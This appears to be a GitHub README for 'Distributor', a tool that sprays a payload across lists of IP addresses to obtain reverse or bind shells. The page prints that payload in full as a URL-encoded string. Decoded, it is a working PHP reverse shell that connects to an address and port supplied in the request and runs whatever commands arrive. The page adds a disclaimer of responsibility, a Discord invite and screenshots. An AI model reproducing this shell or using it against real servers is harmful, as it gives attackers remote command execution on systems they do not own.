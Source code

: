 ## Welcome to Distributor Home Page

Distributor is a Tool that sends Payload to multiple IP's (in a list) or single IP u input. The Payload will create a response with given commands for a Reverse- / Bind Shell.

### Note

Im not responsible for any Damage you'll do!

```markdown
The Payload Looks like this ==>
`%3c%3f%70%68%70%20%24%61%64%64%72%3d%24%5f%52%45%51%55%45%53%54%5b%27%61%64%64%72%27%5d%3b%24%70%6f%72%74%3d%24%5f%52%45%51%55%45%53%54%5b%27%70%6f%72%74%27%5d%3b%69%66%20%28%21%28%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%24%61%64%64%72%2c%24%70%6f%72%74%29%29%29%64%69%65%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%73%6f%63%6b%29%29%20%20%7b%24%63%6d%64%20%20%3d%20%66%67%65%74%73%28%24%73%6f%63%6b%29%3b%24%70%69%70%65%20%3d%20%70%6f%70%65%6e%28%24%63%6d%64%2c%27%72%27%29%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%70%69%70%65%29%29%66%77%72%69%74%65%20%28%24%73%6f%63%6b%2c%20%66%67%65%74%73%28%24%70%69%70%65%29%29%3b%70%63%6c%6f%73%65%28%24%70%69%70%65%29%3b%7d%66%63%6c%6f%73%65%28%24%73%6f%63%6b%29%3b%3f%3e`

Before u look for other Tools because Distributor hasn't enough feautures, just Remember:
1. This tool is in developing. For ideas etc. join my DC https://discord.gg/QCY6CuajqK.
2. It will be one of the best payloaders ever!
3. You can help us developing and more.

For more details dm me : ASM_Royal#9532
```

### Showcase

![unknown](https://user-images.githubusercontent.com/89786570/180613217-ce41f9ec-b2b5-440b-a181-c25701de1655.png)

![unknown1](https://user-images.githubusercontent.com/89786570/180613221-552e9fd6-a57c-4327-acb3-fd175fbafecf.png)

![2022-07-23-17-18-58 (1)](https://user-images.githubusercontent.com/89786570/180613955-a4c75eb0-4585-4cfd-b283-750d479dcff0.gif)
